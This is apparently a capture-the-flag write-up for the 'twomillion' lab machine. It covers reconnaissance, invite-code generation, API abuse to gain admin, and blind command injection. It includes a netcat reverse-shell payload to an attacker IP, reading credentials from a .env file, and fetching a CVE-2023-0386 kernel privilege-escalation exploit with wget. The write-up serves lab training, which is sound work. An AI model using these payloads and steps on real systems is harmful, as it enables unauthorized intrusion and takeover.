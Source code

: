 lab name: twomillion
difficulty : easy
Target: linux

# nmap

```
╰─❯ nmap -sV 10.10.11.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 07:56 EEST
Nmap scan report for 10.10.11.221
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.25 seconds
```

in this nmap scan it indicates http server is opened but we need to put 2million.htb in /etc/hosts

# find me

after going to the home of the website you will notice that its
web application that has login functionality. when you go to join endpoint you will notice you need invite code.

![alt text](<../images/Screenshot 2025-06-07 at 8.15.33 AM.png>)

turn on burpsuite and refresh you will notice that endpoint

![alt text](<../images/Screenshot 2025-06-07 at 8.18.17 AM.png>)
its a obsfucated javascript code. when you deobsfucate it you will understand what does it to

https://matthewfl.com/unPacker.html => this is an unpacker for js

the output

```
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```

/api/v1/invite/how/to/generate this endpoint is interesting. lets go for it

![alt text](<../images/Screenshot 2025-06-07 at 8.22.48 AM.png>)

theres a text that is encrypted in ROT-13
decrypt it and it says

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

send a POST request to this endpoint

![alt text](<../images/Screenshot 2025-06-07 at 8.25.22 AM.png>)
invite code got generated! but base64 decrypt it first and make an account

## investigating the API

when you go through the vpn generate using burpsuite you will notice this API
/api/v1/generate/vpn
try to get to /api/v1 you will notice the whole documentation

![alt text](<../images/Screenshot 2025-06-07 at 8.36.43 AM.png>)
going to the update admin endpoint

![alt text](<../images/Screenshot 2025-06-07 at 8.37.34 AM.png>)

put the content-type header to application/json
and it will tell you put the email in the json body

![alt text](<../images/Screenshot 2025-06-07 at 8.39.09 AM.png>)

now go the api endpoint then go to the generation of vpn for admin user
make a POST request with username

## blind command injection
when you send in username "test &&" you will see empty response. try "test && whoami" and you will still see empty response. open a python http server and try curl to your own ip maybe it will work

![alt text](<../images/Screenshot 2025-06-07 at 8.46.14 AM.png>)

this payload in username parameter will work but you need to open netcat in your machine first

```
test && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 9001 >/tmp/f
```

dont forget to replace ip and port

# going in

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

for better bash experience

now do ls -la and you will see that theres an .env file

```
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

go to ssh using those credintials

now you have the user flag

after some spidering you will find /var/mail

```
admin@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather


```

in the mail it says overlayFS / FUSE

```


search for the cve
https://github.com/puckiestyle/CVE-2023-0386

git clone the cve file then run python http server on it then run this command to get the file in the target machine

```

wget -r --no-parent http://10.10.16.4:8000/CVE-2023-0386

```
then follow the github instructions and now you have a shell
```
